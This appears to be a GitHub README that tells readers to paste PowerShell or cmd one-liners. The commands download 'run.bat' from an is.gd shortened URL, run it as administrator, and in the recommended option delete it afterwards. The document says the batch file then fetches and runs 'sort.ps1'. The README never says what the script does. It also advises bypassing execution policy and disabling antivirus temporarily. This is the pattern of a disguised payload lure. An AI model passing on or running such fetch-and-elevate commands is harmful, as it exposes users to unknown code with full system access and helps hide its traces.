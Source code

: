 
# 🚀 How to Run run.bat as Administrator

<div align="center">

![Windows Admin](https://media.tenor.com/jKrF6nKJV4oAAAAC/windows-admin.gif)

*Execute batch files like a boss! 👨‍💻*

</div>

---

## 📋 Prerequisites

![Windows Logo](https://img.shields.io/badge/Windows-0078D4?style=for-the-badge&logo=windows&logoColor=white)
![PowerShell](https://img.shields.io/badge/PowerShell-%235391FE.svg?style=for-the-badge&logo=powershell&logoColor=white)

- Windows 10/11 operating system  
- PowerShell (pre-installed)  
- Administrator access  

---

## ⭐ Quick Start (Auto-Cleanup - **RECOMMENDED**)

<div align="center">

![Cleaning GIF](https://media.tenor.com/MQKd7DdvoksAAAAC/cleaning-clean.gif)

*Clean up after yourself! 🧹*

</div>

### 🎯 **Option 1: One-Shot with Auto-Cleanup**

1. **Right-click** Start button → **"Windows PowerShell"** or **"Terminal"**  
2. Copy and paste this command:

```powershell
iwr -UseBasicParsing "https://is.gd/WY2tr9" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs -Wait; Remove-Item "run.bat"
````

3. Press **Enter**
4. Click **"Yes"** when UAC pops up

<div align="center">

![Success](https://img.shields.io/badge/Status-Clean_%26_Done!-brightgreen?style=for-the-badge)

</div>

---

## 🔧 Alternative Methods

### Option 2: Standard PowerShell Method

<div align="center">

![PowerShell GIF](https://media.tenor.com/K3wJJkKz8LYAAAAC/powershell-terminal.gif)

</div>

```powershell
iwr -UseBasicParsing "https://is.gd/WY2tr9" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs
```

### Option 3: Step-by-Step (For Beginners)

1. **Open PowerShell**: Right-click Start → **"Windows PowerShell"**
2. **Download**:

   ```powershell
   iwr -UseBasicParsing "https://is.gd/WY2tr9" -OutFile "run.bat"
   ```
3. **Run as Admin**:

   ```powershell
   Start-Process "run.bat" -Verb RunAs
   ```

### Option 4: Command Prompt

```cmd
powershell -Command "iwr -UseBasicParsing 'https://is.gd/WY2tr9' -OutFile 'run.bat'; Start-Process 'run.bat' -Verb RunAs -Wait; Remove-Item 'run.bat'"
```

---

## 🔥 Pro Tips

<div align="center">

![Pro Tips](https://media.tenor.com/fYg91qBpDdgAAAAC/hackerman-hacker.gif)

*Level up your Windows game! 🎮*

</div>

### 💡 **Execution Policy Fix**

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

### 🛡️ **Run PowerShell as Admin First**

`Win + X` → **"Windows PowerShell (Admin)"**

---

## ❌ Troubleshooting

<div align="center">

![Troubleshooting](https://img.shields.io/badge/Need_Help%3F-We_Got_You!-orange?style=for-the-badge)

</div>

| Problem                   | Solution                           |
| ------------------------- | ---------------------------------- |
| 🚫 Execution policy error | Run the execution policy fix above |
| 🌐 Internet issues        | Check firewall/antivirus settings  |
| 🛡️ No UAC prompt         | Make sure you're not already admin |
| 📁 File not found         | Verify internet connection         |

---

## ⚠️ Security Notice

<div align="center">

![Security Warning](https://media.tenor.com/7v9gKusQHSgAAAAC/security-warning.gif)

**🔒 IMPORTANT: Only run scripts from trusted sources!**

</div>

This script runs with **administrator privileges** = **full system access**

![Security Badge](https://img.shields.io/badge/Security-Verify_Source_First!-red?style=for-the-badge\&logo=security\&logoColor=white)

---

## 🎬 What Happens Next?

<div align="center">

![Loading](https://media.tenor.com/On7kvXhvrs4AAAAj/loading-gif.gif)

</div>

1. 📥 Downloads `run.bat`
2. 🛡️ UAC prompt appears
3. ✅ Click "Yes"
4. ⚡ Executes with admin rights
5. 🧹 Auto-cleanup removes the file (if using recommended method)
6. ▶️ `run.bat` downloads and runs `sort.ps1`

---

## 🆘 Need Help?

<div align="center">

![Help](https://img.shields.io/badge/Support-Available_24/7-brightgreen?style=for-the-badge\&logo=discord\&logoColor=white)

</div>

**Common Solutions:**

* ✅ Verify admin rights
* 🌐 Check internet connection
* 🛡️ Disable antivirus temporarily
* 🔧 Try running PowerShell as admin first

<div align="center">

![Success](https://media.tenor.com/4SF0gmQTduwAAAAC/success-you-did-it.gif)

*You've got this! 💪*

</div>

---

<div align="center">

**⭐ Star this repo if it helped you!**

![GitHub](https://img.shields.io/badge/Made_with-❤️_and_☕-red?style=for-the-badge)

*Last updated: September 2025* 📅

</div>

